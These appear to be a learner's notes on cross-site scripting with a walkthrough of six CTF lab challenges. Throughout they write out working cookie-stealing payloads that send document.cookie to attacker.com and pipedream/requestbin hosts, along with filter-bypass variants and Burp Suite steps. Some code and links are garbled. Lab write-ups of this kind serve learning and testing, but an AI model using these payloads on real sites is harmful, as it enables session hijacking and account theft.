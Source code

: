 # XSS
* Cross-site scripting (XSS) is a web security vulnerability that allows attackers to inject malicious code into a user's browser.

## Part 1. Report
 
## Part 2. XSS
- Working on Web Browser: JavaScript
- Working location: victim's web browser

1. Stored XSS -> Save in the server
2. Reflected XSS -> rebound from Server
3. XSS, CSRF
4. Steal cookie by using JavaScript

```javascript
var cookieData = document.cookie;
var i = new Image();
  i.src = "HTTP://normaltic.attacker.com/
  i.src = "HTTP://normaltic.attacker.com/?cookie=" + "Secret_data";
  i.src = "HTTP://normaltic.attacker.com/?cookie=" + cookieData;
```

5. VPS or requestbin - https://public.requestbin.com/r/

6. XSS
   [Common XSS Errors[(https://github.com/imnarendrabhati/testing-new/blob/master/%3CIMG%20SRC%3DX%20ONERROR:JAVASCRIPT:ALERT(1)%3B%3E)

1) CTF XSS 1 (https://portswigger.net/web-security/cross-site-scripting/contexts)
- Error = Input script
- Annoucement and create content "<script>alert(1)</script>" on the subject.
- When you click it, the alert shows up.
- Instead of alert(1), put var i = new Image(); i.src = "HTTP://en7riltg206nc.x.pipedream.net/getCrred.php?cookie=" + cookieData;
- In BurpSuite, instead of alert(1), put the below code
```javascript
var cookieData = document.cookie; 
var i = new Image();
i.src = "http://enjt04rx79at.x.pipedream.net/?cookie=" + cookieData;
```

- On the admin visit url = type the address made by the attack post
- Check the flag on https://public.requestbin.com/

7. DOM Based XSS
- Create a tag by using JavaScript
- Create and execute a new script from a browser
- an XSS attack wherein the attack payload is executed as a result of modifying the DOM “environment” in the victim's browser used by the original client side script,
- document.write = "";
- innerHTML

## Part 3. Assignment
1. Review
2. XSS CTF
 a. CTF XSS 2
    - Error = Showing the direct sentence on HTML => <script>alert('x에 대한 검색 결과가 존재하지 않습니다.');</script>
    - Check Attack statement on search bar => xss');alert(1);var i=('
    - Check Attack => xss');var cookieData = document.cookie; var i = new Image();i.src = "http://enjt04rx79at.x.pipedream.net/?cookie=" + cookieData;var i=('
    - Send to repeater the POST URL to change GET method
    - Replace the Repeater on Burp Suite, working on the GET method instead of the POST method because the host gets the access
    - The GET URL inputs the admin visit URL bar
    - Check the flag on https://public.requestbin.com/

 b. CTF XSS 3
    - Error = Showing ID on the URL on the personal information 
    - Check the attack possibility to change the ID on Burp Suite Request
    - Check the attack statement => aaa"/><script>alert(1)</script>
    - Check the attack => aaa"/><script>var cookieData = document.cookie; var i = new Image();i.src = "http://enjt04rx79at.x.pipedream.net/?cookie=" + cookieData;</script>
    - Copy GET URL and input the URL on the admin visit bar
    - Check the flag on https://public.requestbin.com/

  c. CTF XSS 4
    - Error = In the board, it is possible to use special characters (<'">).
    - Check the attack possibility of using an attack statement on the board. => <script>alert(1)</script>
    - Filtering "script" and "alert", so using another attack statement => <img src=x onerror=confirm(1)> 
    - Check the attack => <img src="https://x" onerror="location.href='http://enjt04rx79at.x.pipedream.net/?cookie=' + document.cookie;">
    - Block the long subject
    - Check the attack on the content box
    - Copy URL and input the URL on the admin visit bar
    - Check the flag on https://public.requestbin.com/

  d. CTF XSS 5
    - Error = In the board, it is possible to use special characters (<'">), but it converts &lt;
    - Check the attack possibility of using an attack statement on the board => <script>alert(1)</script>
    - Using the Burp Suite, the website should be intercepted step by step
    - Create a new post and forward
    - Check the attack statement => <script>var cookieData = document.cookie; var i = new Image();i.src = "http://enjt04rx79at.x.pipedream.net/?cookie=" + cookieData;</script>
    - During the intercept, change the filtered attack statement
    - Open the new post and copy the URL and input the URL on the admin visit bar
    - Check the flag on https://public.requestbin.com/

  e. CTF XSS 6
    - Error = When you log in wrong, the alert pops up.
    - Check the attack possibility in the Burp Suite
    - The POST proxy sends to Repeater and changes the method to GET
    - Check special characters and it works
    - Check the attack statement => +]');alert(1)//
    - Check the attack => +]');location.href='http://enjt04rx79at.x.pipedream.net/?cookie='%2bdocument.cookie;//
    - Copy URL and input the URL on the admin visit bar
    - Check the flag on https://public.requestbin.com/

  f. CTF XSS Challenge 
